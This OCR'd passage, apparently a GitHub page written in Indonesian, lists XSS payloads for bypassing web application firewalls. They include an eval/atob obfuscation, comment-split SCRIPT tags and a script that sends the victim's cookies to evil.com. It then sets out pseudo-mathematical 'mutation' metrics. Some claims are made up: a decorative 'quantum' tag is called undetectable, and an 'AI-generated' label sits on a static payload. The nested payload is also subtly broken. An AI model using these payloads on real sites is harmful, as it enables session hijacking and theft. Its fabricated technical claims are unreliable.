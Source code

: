 ### **7️⃣ Nested Obfuscation**  
Menggabungkan beberapa teknik dalam satu payload.  
```html
<SCRIPT>eval(atob(unescape('%61%6C%65%72%74%28%31%29')))</SCRIPT>
```

✅ **Teknik:** Menggunakan **Base64 + URL Encoding** untuk menyamarkan payload.  

---

### **8️⃣ Comment Injection**  
Menyisipkan komentar di antara karakter payload agar tidak dikenali oleh WAF.  
```html
<SCR<!--test-->IPT>alert(1)</SCR<!--test-->IPT>
```

✅ **Teknik:** WAF akan kesulitan mengenali `SCRIPT` karena terpecah oleh komentar `<!-- -->`.  

---

### **9️⃣ AI-Generated Payload**  
Payload yang dibuat secara dinamis menggunakan AI untuk selalu menghasilkan pola baru.  
```html
<SCRIPT>fetch(`https://evil.com/?data=${btoa(document.cookie)}`)</SCRIPT>
```

✅ **Teknik:** AI menyesuaikan payload berdasarkan deteksi awal WAF, membuatnya selalu berubah.  

---

### **🔟 Quantum Mutation (Quze)**  
Menggunakan Quantum Computing untuk mengganti payload secara real-time dan sulit dideteksi.  
```html
<QZ data-q="𝑞𝑢𝑎𝑛𝑡𝑢𝑚_𝑒𝑛𝑐𝑟𝑦𝑝𝑡𝑖𝑜𝑛">⚛️</QZ>
```

✅ **Teknik:** Payload berubah secara acak dengan algoritma quantum, sehingga mustahil dikenali oleh WAF biasa.  

---

# **📌 Dokumentasi Mendalam: Perhitungan Payload Mutation**  

## **🔍 Konsep Perhitungan Payload Mutation**  

Payload Mutation tidak hanya berfokus pada pengubahan sintaks payload untuk menghindari deteksi WAF, tetapi juga mempertimbangkan **kompleksitas matematis, efisiensi encoding, tingkat deteksi, dan performa eksekusi payload**.  

Berikut adalah beberapa faktor utama dalam perhitungan payload mutation:  

✅ **Entropy (H)** – Mengukur keacakan payload untuk menghindari pola tetap.  
✅ **Kolisi Hash (C)** – Kemampuan payload menghasilkan pola unik yang sulit dideteksi.  
✅ **Kompleksitas Algoritma (K)** – Seberapa sulit payload dapat dikenali oleh filter WAF.  
✅ **Tingkat Bypass WAF (B)** – Persentase kemungkinan payload dapat melewati deteksi WAF.  
✅ **Efisiensi Eksekusi (E)** – Seberapa cepat payload dijalankan setelah mutasi.  

---
